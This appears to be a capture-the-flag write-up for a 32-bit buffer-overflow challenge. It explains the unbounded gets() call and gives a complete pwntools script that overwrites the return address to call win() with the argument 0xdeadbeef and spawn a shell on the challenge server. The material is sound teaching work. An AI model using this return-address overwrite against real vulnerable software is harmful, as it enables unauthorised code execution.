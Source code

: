 # Reconnaissance
## C Review
We can clearly see that nothing is happening in the main function, so we'll look into `vuln()` for the attack vector. There is a 50 byte buffer we can write into with `gets()` without bounds checking, so that is our attack vector. We will want to overwrite the return address to call `win()` and spawn a shell, but `win()` is a little more complicated than it has been in previous attempts this time around. Inside of `win()` there is a check seeing if it's parameter `param` is equal to `0xdeadbeef`, so we will need to also use our input to provide that argument.

Using the file command we can also see that the binary was compiled on a 32-bit system, so the addresses we write should each be 4 bytes.

# Script
First let's do some setup:
```{python}
from pwn import *

path_to_binary = "./challenge/chall_9"
EXE = ELF(path_to_binary)
context.binary = EXE
context.log_level = "DEBUG"

win_address = EXE.symbols['win']

def conn(useExe=False):
	if useExe:
		# r = gdb.debug(EXE.path, "\n".join(breakpoints))
		r = process([EXE.path])
	else:
		r = remote('pwn.osucyber.club',13380)
	return r
```
We import the `pwn` library to use for the challenge, and use it's functionality to create an `ELF` object which will let us find some interesting information about the executable. Setting the context is necessary with `context.binary` to run the process locally, and adding the "DEBUG" setting just gives us more verbose output about what we send and receive. Next, we obtain the address of the `win()` function which we will want to write in place of the return address, and define a function which will let us easily switch betweeen running a local process and connecting to the remote server.

Now, lets construct our payload and send it:
```{python}
io = conn(False)
io.recvline()
io.sendline(b'bananas')

# Ghidra was used to decompile the file and find that the 50 byte buffer is actually taking up
# 62 bytes on the stack, so we need 62 bytes of padding to start. Then we add 4 bytes of padding
# between `win_address` and `0xdeadbeef` because the `win()` function expects a return address of 
# its own.
payload = 62 * b'a'
payload += p32(win_address) + b'aaaa' + p32(0xdeadbeef)

io.sendline(payload)

io.interactive()
io.close()
```

If this spawns a terminal, then our code worked! We can run it again on the server then call `ls` and `cat flag.txt` in the interactive shell!